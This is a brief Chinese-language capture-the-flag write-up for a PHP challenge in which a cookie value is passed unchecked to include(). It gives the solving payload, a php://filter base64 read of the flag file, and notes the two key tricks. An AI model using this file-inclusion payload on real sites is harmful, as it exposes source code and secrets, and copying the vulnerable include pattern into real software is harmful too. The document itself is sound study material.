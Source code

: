 挺简单的一道题，

```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

发现把cookie设置为flag即可返回正确答案，关键在于用php：//filter绕过一下

Cookie:language=php://filter/read=convert.base64-encode/resource=flag

感觉关键点就两个：

1.cookie传递的方式（bp包里面这样）

2.学会用php://filter而不是最简单的读取